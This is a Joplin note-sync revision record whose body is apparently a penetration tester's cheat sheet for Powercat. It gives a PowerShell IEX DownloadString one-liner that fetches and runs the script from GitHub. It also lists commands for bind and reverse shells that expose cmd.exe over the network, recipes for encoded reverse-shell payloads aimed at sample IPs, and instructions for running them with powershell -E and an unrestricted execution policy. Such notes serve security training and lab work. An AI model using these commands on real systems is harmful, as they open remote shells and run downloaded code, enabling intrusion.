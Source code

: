 id: 20f603d8fbcb48318dccbd029c7a8251
parent_id: 
item_type: 1
item_id: adf5508feb1c438baf54a93e5c8c2d5f
item_updated_time: 1646016694494
title_diff: "[{\"diffs\":[[1,\"1f45fe001a5c493683ce3e44ef34f4b2\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Powercat\\\r\\\n\\\r\\\n<ins>**REQUIRES POWERSHELL SCRIPT TO LOAD**</ins>\\\r\\\n\\\r\\\n\\\\*\\\\*Script is available at \\\\*\\\\*/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1\\\r\\\n\\\r\\\n> ..\\\\\\\\powercat.ps1\\\r\\\n\\\r\\\nIf the target machine has internet, can load directly from the internet\\\r\\\n\\\r\\\n> IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')\\\r\\\n\\\r\\\n# Commands\\\r\\\n\\\r\\\nBind shell:\\\r\\\n\\\r\\\n> powercat -l -p $PORT -e cmd.exe\\\r\\\n\\\r\\\nReverse shell:\\\r\\\n\\\r\\\n> powercat -c $IP -p $PORT -e cmd.exe\\\r\\\n\\\r\\\nPayloads:\\\r\\\n\\\r\\\n- For reverse shell: powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1\\\r\\\n    \\\r\\\n- For encoded reverse shell: powercat -c 192.168.119.190 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1\\\r\\\n    \\\r\\\n- For encoded bind shell: powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1\\\r\\\n    \\\r\\\n\\\r\\\nTo run the payloads: use\\\r\\\n\\\r\\\n> powershell.exe -E (Get-Content '.\\\\\\\\encoded-rshell.ps1' -Raw)\\\r\\\n\\\r\\\nIn Powershell. Cmd.exe doesn't seem to work due to some sort of limitation; make sure alternate between powershell and cmd for commands\\\r\\\n\\\r\\\n> PowerShell.exe -ExecutionPolicy UnRestricted -File\\\r\\\n\\\r\\\nid: 1f45fe001a5c493683ce3e44ef34f4b2\\\r\\\nparent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd\\\r\\\ncreated_time: 2022-01-14T07:13:45.803Z\\\r\\\nupdated_time: 2022-01-20T07:03:20.797Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 1.36730000\\\r\\\nlongitude: 103.80140000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-14T07:13:45.803Z\\\r\\\nuser_updated_time: 2022-01-20T07:03:20.797Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1784}]"
metadata_diff: {"new":{"id":"adf5508feb1c438baf54a93e5c8c2d5f","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016694487,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.060Z
created_time: 2022-02-28T02:54:22.060Z
type_: 13